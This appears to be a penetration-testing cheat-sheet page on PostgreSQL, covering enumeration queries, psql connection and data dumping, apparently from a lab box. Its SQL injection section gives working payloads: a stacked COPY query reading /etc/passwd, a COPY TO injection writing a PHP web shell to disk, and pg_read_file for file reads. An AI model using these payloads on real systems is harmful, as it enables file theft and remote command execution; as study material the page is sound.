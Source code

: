 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PostgreSQL (5432)

## Usage

PostgreSQL stores metadata in tables beggining with `pg_`.

{% tabs %}
{% tab title="Version" %}
```sql
SELECT version();
```
{% endtab %}

{% tab title="Current User" %}
```sql
SELECT current_user;
```
{% endtab %}

{% tab title="Databases" %}
```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```sql
// Query only user-created tables (excluding `pg_` tables)
SELECT table_name FROM <database>.information_schema.tables WHERE table_schema='public';
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
SELECT column_name, data_type FROM <database>.information_schema.columns WHERE table_name='<table>'
```
{% endcode %}
{% endtab %}
{% endtabs %}

We can connect via CLI with `psql`.

{% tabs %}
{% tab title="Connect" %}
```bash
psql -h 127.0.0.1 -U postgres
```
{% endtab %}
{% endtabs %}

```bash
# Listing dbs
postgres=# \l
# Connecting to a db
postgres=# \c cozyhosting
# Listing tables
cozyhosting=# \dt
# Dumping data
cozyhosting=# select * from users;
```

### SQLi

### Read/Write

* `COPY FROM` -> insert data **into a table from a file** (the PostgreSQL process must have `read` access to the file and the user making the query permissions to create a new table).

```sql
// example using stacked queries
create table tmp(data text); // create the table tmp with one column named data
copy tmp from '/etc/passwd'; // copy the file contents into the tmp table
select * from tmp; // select all data from the tmp table
```

* `COPY TO` -> copy data **to a file from a table** (the PostgreSQL process must have `write` permissions to the directory where the file will be created).

```sql
1';copy(select '<?php passthru($_GET["cmd"]);?>') to '/var/tmp/cmd.php';-- -
```

* `pg_read_file()` -> instead of inserting the results into a table, it just returns a single field containing all the data (useful if the PostgreSQL process has `read` access on the file, but the user querying don't have permissions to create a new table).

```sql
SELECT pg_read_file('/var/tmp/proof.txt');
```
